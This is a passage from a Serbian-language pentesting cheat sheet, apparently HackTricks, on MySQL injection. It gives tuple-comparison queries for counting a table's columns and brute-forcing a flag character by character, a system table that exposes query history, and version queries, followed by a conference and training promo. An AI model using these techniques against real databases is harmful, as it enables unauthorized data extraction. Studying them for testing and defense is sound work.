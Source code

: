 ### Dobijanje vrednosti bez imena kolone

Ako u nekom trenutku znate ime tabele, ali ne znate ime kolona unutar tabele, možete pokušati da pronađete koliko ima kolona izvršavanjem nečega poput:

```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```

Pretpostavljajući da postoje 2 kolone (pri čemu je prva ID, a druga zastava), možete pokušati brutalno probiti sadržaj zastave pokušavajući karakter po karakter:

```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```

Više informacija možete pronaći na [https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952](https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952)

### Istorija MySQL-a

Možete videti druge izvršavanja unutar MySQL-a čitajući tabelu: **sys.x$statement\_analysis**

### Alternative verzije

```
mysql> select @@innodb_version;
mysql> select @@version;
mysql> select version();
```

## Ostali vodiči za MYSQL ubacivanje

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)]

## Reference

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji događaj u oblasti sajber bezbednosti u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je ključno mesto susreta tehnoloških i sajber bezbednosnih profesionalaca u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
